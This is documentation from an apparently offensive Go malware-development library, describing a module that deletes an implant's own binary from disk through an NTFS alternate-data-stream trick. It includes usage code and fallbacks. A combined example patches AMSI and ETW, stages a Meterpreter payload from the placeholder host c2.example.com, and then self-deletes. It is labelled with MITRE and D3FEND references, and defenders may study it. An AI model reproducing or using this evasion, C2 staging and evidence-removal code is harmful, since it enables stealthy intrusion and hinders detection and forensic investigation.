


# Self-Deletion

[<- Back to Cleanup Overview](README.md)

**MITRE ATT&CK:** [T1070.004 - Indicator Removal: File Deletion](https://attack.mitre.org/techniques/T1070/004/)
**D3FEND:** [D3-FRA - File Removal Analysis](https://d3fend.mitre.org/technique/d3f:FileRemovalAnalysis/)

---

## Primer

After an implant has done its job, you want it to disappear. The problem is that Windows locks the executable file while the process is running -- you cannot simply delete it.

**The spy letter burns itself after being read.** Self-deletion uses a clever NTFS trick: it renames the file's default data stream (the actual file content) to an alternate data stream name, then marks the file for deletion. When the process exits and releases its handle, Windows deletes the file. The binary vanishes from disk as if it was never there.

---

## How It Works

### NTFS Alternate Data Stream Technique



### Four Deletion Methods



---

## Usage

### NTFS ADS Self-Delete (Recommended)

```go
import "github.com/oioio-space/maldev/cleanup/selfdelete"

// Immediate self-deletion via NTFS alternate data streams
if err := selfdelete.Run(); err != nil {
    log.Fatal(err)
}
// File is gone from disk after process exits
```

### Force Delete (Retry on Lock)

```go
import (
    "time"
    "github.com/oioio-space/maldev/cleanup/selfdelete"
)

// Retry 5 times with 1-second delay between attempts
// Useful when OneDrive or antivirus holds a lock
if err := selfdelete.RunForce(5, time.Second); err != nil {
    log.Fatal(err)
}
```

### Batch Script Fallback

```go
// Spawns a hidden cmd.exe that loops until the file is deletable
if err := selfdelete.RunWithScript(2 * time.Second); err != nil {
    log.Fatal(err)
}
// Script self-destructs after deleting the target
```

### Mark for Reboot Delete (Admin Required)

```go
// Uses MoveFileEx with MOVEFILE_DELAY_UNTIL_REBOOT
if err := selfdelete.MarkForDeletion(); err != nil {
    log.Fatal(err)
}
```

---

## Combined Example: Execute + Self-Delete

```go
package main

import (
    "context"
    "time"

    "github.com/oioio-space/maldev/c2/meterpreter"
    "github.com/oioio-space/maldev/cleanup/selfdelete"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/etw"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    // Phase 1: Evasion
    caller := wsyscall.New(wsyscall.MethodIndirect, wsyscall.NewTartarus())
    defer caller.Close()
    evasion.ApplyAll([]evasion.Technique{amsi.ScanBufferPatch(), etw.All()}, caller)

    // Phase 2: Stage Meterpreter
    stager := meterpreter.NewStager(&meterpreter.Config{
        Transport: meterpreter.HTTPS,
        Host:      "c2.example.com",
        Port:      "443",
        Timeout:   30 * time.Second,
        Caller:    caller,
    })
    stager.Stage(context.Background())

    // Phase 3: Self-delete (binary disappears from disk)
    selfdelete.RunForce(3, time.Second)
}
```

---

## Advantages & Limitations

### Advantages

- **Immediate deletion**: NTFS ADS technique deletes the file as soon as the process exits
- **No remnants**: The file is fully deleted, not just hidden or renamed
- **Multiple fallbacks**: Four methods cover different scenarios (NTFS, locked files, non-admin, reboot)
- **Script self-cleans**: `RunWithScript` generates a batch file that also deletes itself
- **Handles OneDrive**: `RunForce` retries to handle cloud sync locks

### Limitations

- **NTFS only**: `Run()` requires NTFS filesystem -- FAT32 or network drives not supported
- **Process must exit**: File is only deleted when the last handle is closed (process exit)
- **Forensic artifacts**: MFT entries may persist until overwritten (recoverable with disk forensics)
- **`RunWithScript` is noisy**: Spawns a visible (hidden window) cmd.exe process
- **`MarkForDeletion` requires admin**: MoveFileEx with DELAY_UNTIL_REBOOT needs elevation

---

## Compared to Other Implementations

| Feature | maldev (selfdelete) | ds_portal (C) | SelfDeletion (C#) | cmd /c del |
|---------|--------------------|--------------|--------------------|-----------|
| NTFS ADS rename | Yes | Yes | No | No |
| Retry on lock | Yes (RunForce) | No | No | No |
| Script fallback | Yes | No | Yes | Yes |
| Reboot delete | Yes (MoveFileEx) | No | No | No |
| Language | Go | C | C# | Batch |
| In-process | Yes | Yes | Yes | External |

---

## API Reference

### Functions

```go
// Run performs self-deletion via NTFS alternate data streams.
func Run() error

// RunForce retries Run multiple times with a delay.
func RunForce(retry int, duration time.Duration) error

// RunWithScript spawns a hidden batch script that deletes the executable.
func RunWithScript(wait time.Duration) error

// MarkForDeletion marks the executable for deletion at next reboot (admin required).
func MarkForDeletion() error

// DeleteFile deletes an arbitrary file using the ADS rename technique.
func DeleteFile(path string) error

// DeleteFileForce retries DeleteFile with delays between attempts.
func DeleteFileForce(path string, retry int, duration time.Duration) error
```

---

## Arbitrary File Deletion

The ADS rename technique also works on any file, not just the running executable:

```go
selfdelete.DeleteFile(`C:\Temp\payload.exe`)

// With retries (useful when file is locked)
selfdelete.DeleteFileForce(`C:\Temp\payload.exe`, 5, time.Second)
```
